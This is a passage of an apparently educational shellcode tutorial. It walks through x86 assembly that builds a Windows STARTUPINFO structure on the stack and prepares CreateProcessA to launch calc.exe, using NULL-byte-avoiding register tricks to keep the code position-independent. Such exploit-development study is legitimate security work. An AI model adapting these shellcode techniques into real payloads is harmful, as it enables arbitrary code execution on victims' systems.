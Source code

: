 ### Creating the STARTUPINFO Structure

Windows CreateProcess API requires a STARTUPINFO structure. We create this directly on the stack:

```assembly
create_startupinfoa:
xor   eax, eax                  # Clear EAX
# Push 16 zero values for various fields
# [multiple pushes omitted for brevity]
mov   al, 0x44                  # Set cb = 68 (size of STARTUPINFO)
push  eax                       # Push structure size
mov   esi, esp                  # ESI points to STARTUPINFO
```

The STARTUPINFO structure has 17 fields, most of which we set to zero for default behavior. The critical field is `cb` (the first field), which must be set to the structure's size (68 bytes).

By pushing all values onto the stack, we avoid the need for a static data section, keeping our shellcode position-independent and more versatile.

## Executing the Payload: Process Creation

### Preparing CreateProcessA Parameters

With our string and structure ready, we prepare to call CreateProcessA:

```assembly
call_createprocessa:
mov   eax, esp                  # Get current stack pointer
xor   ecx, ecx                  # Clear ECX
mov   cx, 0x390                 # Set to 912 bytes
sub   eax, ecx                  # Calculate space for PROCESS_INFORMATION
push  eax                       # lpProcessInformation
push  esi                       # lpStartupInfo
xor   eax, eax                  # Clear EAX
push  eax                       # lpCurrentDirectory
push  eax                       # lpEnvironment
push  eax                       # dwCreationFlags
inc   eax                       # EAX = 1
push  eax                       # bInheritHandles
dec   eax                       # EAX = 0
push  eax                       # lpThreadAttributes
push  eax                       # lpProcessAttributes
push  ebx                       # lpCommandLine = "calc.exe"
push  eax                       # lpApplicationName
```

This segment prepares the stack with the 10 parameters required by CreateProcessA:

1. First, we reserve space for the PROCESS_INFORMATION output structure (not by adjusting ESP, but by calculating an address below our current stack)
2. Then we push parameters in reverse order (standard x86 calling convention)
3. We use some register tricks (like INC/DEC) to avoid NULL bytes while still creating the values 0 and 1

